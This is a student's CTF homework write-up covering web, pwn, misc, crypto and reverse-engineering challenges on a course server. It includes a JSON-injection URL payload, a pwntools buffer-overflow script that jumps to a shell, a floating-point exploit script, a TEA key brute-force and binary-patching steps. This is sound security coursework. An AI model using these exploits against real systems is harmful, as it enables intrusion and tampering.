# Hw00

> My ID is 🎃.

## owoHub 🚝 (web)

### Analysis
First, I only find a normal page that has its source code below.</br>


After going through this page, I find there is something interesting in source code:</br>
`{"username":"${username}","admin":false,"cute":${cute}}`

About js **template literal**, we can use **\`${...}\`** (backticks) to inject expression or variable, and it can be regarded as pure string.<br/>
Let's create the payload!

### Attack
Our goal: `givemeflag === "yes" && userInfo.admin`.<br/>
Data we can control: `username` and `cute`.<br/>
However, because `username` is limited in [a-z0-9], it seems useless and I can use it to bypass the rule.<br/>
And `cute` can be used to build payload because the rule only judges `cute` if ends with "true" or "false".<br/>

- Expected payload: `cute=true,"admin":true}%26givemeflag=yes%23false`
  - `true,"admin":true}...` to overwrite "admin" to true and enclose json right bracket.
  - `...%26givemeflag=yes...` to inject "givemeflag" with value "yes". %26 is "&" encoded.
  - `...%23false` to meet the rule. %23 is "#" encoded and it is used to get rid of redumdant chars (url hash).
- If username isn't limited in [a-z0-9]:
  - `username=test","admin":true}%26givemeflag=yes%23false&cute=true`

## Cafe Overflow 🛹 (pwn)
1. Checksec shows `Stack: No canary found`
2. Inputing more than 24 chars will cause `segmentation fault`
</br>
=> Buffer overflow

### Solution
- Input arbitrary number of chars and set breakpoint at the end of main function


- Calculate the buffer size (45-21 = 24)
  - sol 2: pwntool cyclic and cyclic.find()

Payload is that sending 24 'a' and return address of the start of func1</br>


There will be a messages telling us it is almost done.</br>
Then if we jump to `0x401195` which is below the func1, we can get the shell 😸

### Payload
```python
#!/usr/bin/python3

from pwn import *

r = remote('hw00.zoolab.org', 65534)
target = p64(0x401195)

r.sendline(b'a'*24 + target)

r.interactive()
```

## The floating Aquamarine 💀 (misc)
Use **floating point error** to get money.

### Analysis
```
1. 1000000000: -8888000000(expect) => -8887999488(real) (diff 512)
2. -1000: -8887911120(expect) ==> -8887910400(real)  (diff 720)
3. -1000: -8887822240(expect) ==> -8887821312(real) (diff 928)
4. -99997000: 0(expect) ==> 1024(real) (diff 1024)
```

I find (8887999488 - 8887910400) == (8887910400 - 8887821312) == 89088, which (88.88*10000 == 88880) != 89088.</br>
I don't know the accurate reason why I do 1~4 will make the balance crease $1024, but I think that those operations of floating point will cause **the "Exponent" bit creases one bit**.

### Attack
My payload:
1. 100000000
2. -1000
3. -1000
4. -90008000
5. goto 1.

Everytime you do 1~4, you will get $1024.</br>
When you do it three times repeatly, you will get $3072 and flag!

### Payload
```python
#!/usr/bin/python3

from pwn import *

r = remote('hw00.zoolab.org', 65535)

def qq():
	r.sendline('100000000')
	r.sendline('-1000')
	r.sendline('-1000')
	r.sendline('-99998000')

qq()
qq()
qq()

r.interactive()
```

## 解密一下 🔊 (crypto)
It is TEA Decryption (Tiny Encryption Algorithm).</br>

From wiki:
```c
void decrypt (uint32_t v[2], const uint32_t k[4]) {
    uint32_t v0=v[0], v1=v[1], sum=0xC6EF3720, i;  /* set up; sum is 32*delta */
    uint32_t delta=0x9E3779B9;                     /* a key schedule constant */
    uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   /* cache key */
    for (i=0; i<32; i++) {                         /* basic cycle start */
        v1 -= ((v0<<4) + k2) ^ (v0 + sum) ^ ((v0>>5) + k3);
        v0 -= ((v1<<4) + k0) ^ (v1 + sum) ^ ((v1>>5) + k1);
        sum -= delta;
    }                                              /* end cycle */
    v[0]=v0; v[1]=v1;
}
```
- Note1: `sum = delta*32`
- Note2: You need to brute force the key, but you can check the time when output file was created
  - In this case, it is 20200913 14:22, and you can start from 20200913 00:00.

### Payload
```python
#!/usr/bin/env python3
import string
import time
import datetime
import random
from typing import List
from io import BufferedReader

def convert(data: bytes, size=4): # 把 data 分成 size=4 的 block, element is int
    return [int.from_bytes(data[idx:idx+size], 'big') for idx in range(0, len(data), size)] #

def invert(data, size=4): # hex 轉成 bytes
    return b''.join([element.to_bytes(size, 'big') for element in data])

def _encrypt(v: List[int], k: List[int]):
    total, delta, mask = 0, 0xFACEB00C, 0xffffffff
    for _ in range(32):
        total = total + delta & mask # restrict number in 2^32-1
        v[0] = v[0] + (    (v[1] << 4) + k[0] & mask ^ (v[1] + total) & mask ^ (v[1] >> 5) + k[1] & mask     ) & mask
        v[1] = v[1] + ((v[0] << 4) + k[2] & mask ^ (v[0] + total) & mask ^ (v[0] >> 5) + k[3] & mask) & mask
        print(total)
    return v # List[int], element is int

def encrypt(flag: bytes, key: bytes):
    d_content = b''
    """
    flag 分成前後 8 個 byte,
    將當前的 part 轉成 2 個 block [4, 4], 以及 key 轉成 [4, 4, 4, 4]
    """
    for idx in range(0, len(flag), 8): # twiced
        a = convert( flag[idx:idx+8] )
        b = convert(key)
        c = _encrypt(a, b)
        d = invert(c)

        d_content += d
    return d_content

if __name__ != '__main__':
    flag = b'aaaaaaaaaaaaaaaa'
    assert len(flag) == 16 # len(flag) is 16
    random.seed(int(time.time()))

    key = random.getrandbits(128).to_bytes(16, 'big')

    d_content = encrypt(flag, key) # return bytes
    
    print(f'd_content = {d_content.hex()}')
    exit(1)


""" payload start """

def _decrypt(v: List[int], k: List[int]):
    total, delta, mask = 0x59d60180, 0xFACEB00C, 0xffffffff
    for _ in range(32):
        v[1] = v[1] -    ((v[0] << 4) + k[2] & mask ^ (v[0] + total) & mask ^ (v[0] >> 5) + k[3] & mask)    & mask
        v[0] = v[0] -    ((v[1] << 4) + k[0] & mask ^ (v[1] + total) & mask ^ (v[1] >> 5) + k[1] & mask)    & mask
        total = total - delta & mask # restrict number in 2^32-1
    return v # a

def decrypt(d_content: bytes):
    key = random.getrandbits(128).to_bytes(16, 'big')
    d1 = d_content[:8]
    c1 = convert(d1)
    d2 = d_content[8:16]
    c2 = convert(d2)
    b = convert(key)

    f1 = _decrypt(c1, b)
    f2 = _decrypt(c2, b)

    return invert(f1)+invert(f2)

d_content = bytes.fromhex('77f905c39e36b5eb0deecbb4eb08e8cb')
start = datetime.datetime(2020,9,13).timestamp() - 1000
i = start
with open('output', 'wb') as f:
    while i:
        random.seed(int(i))
        flag = decrypt(d_content)
        if b'flag' in flag or b'FLAG' in flag:
            print(flag)
        i += 1
```

## EekumBokum 🎡 (reverse)
### Sol 1
First, I use **IDA pro** to decompile it, and start **finding the variable controlling the puzzle**.</br>

</br>
Change its value and patch it to new exe.
</br>


</br>
Restart the patched exe and you will get the flag.
</br>


### Sol 2
Use **dnSpy32** to open it, and you will get all source codes...</br>

</br>
Comment the code which switchs two image in "form" class
</br>



### Sol 3
Use **Cheat Engine** to analyze code run dynamically.</br>
Find the address **which is controlling the puzzle**.</br>
Change its value and you will get the flag.</br>